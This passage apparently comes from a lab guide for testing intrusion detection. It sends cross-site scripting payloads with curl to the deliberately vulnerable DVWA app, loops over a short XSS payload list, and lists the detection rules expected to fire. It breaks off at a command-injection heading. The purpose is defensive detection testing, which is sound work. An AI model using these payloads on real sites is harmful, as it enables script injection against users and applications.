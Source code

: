 ```bash
  -H "Cookie: PHPSESSID=your-session-id; security=low"
```

**Expected Detections**:
- SQL injection patterns in web logs (rule 31152)
- Custom DVWA SQL injection rule (100002)
- Automated tool detection (sqlmap user agent)

### 1.3 Cross-Site Scripting (XSS) Attacks

**Objective**: Test XSS detection and filtering
**MITRE Technique**: T1190 (Exploit Public-Facing Application)

```bash
# Reflected XSS
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# DOM-based XSS
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/xss_d/?default=<script>alert('DOM-XSS')</script>" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# Stored XSS via POST
curl -X POST "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/xss_s/" \
  -d "txtName=<script>alert('Stored-XSS')</script>&mtxMessage=Test&btnSign=Sign+Guestbook" \
  -H "Cookie: PHPSESSID=your-session-id; security=low" \
  -H "Content-Type: application/x-www-form-urlencoded"

# XSS with different payloads
PAYLOADS=(
  "<img src=x onerror=alert('XSS')>"
  "<svg onload=alert('XSS')>"
  "javascript:alert('XSS')"
  "<iframe src='javascript:alert(\"XSS\")'></iframe>"
)

for payload in "${PAYLOADS[@]}"; do
  curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/xss_r/?name=$payload" \
    -H "Cookie: PHPSESSID=your-session-id; security=low"
  sleep 2
done
```

**Expected Detections**:
- XSS attack patterns (rule 31161)
- Custom DVWA XSS rule (100003)
- Script injection attempts

### 1.4 Command Injection Attacks

**Objective**: Test command execution detection
**MITRE Technique**: T1190 (Exploit Public-Facing Application)
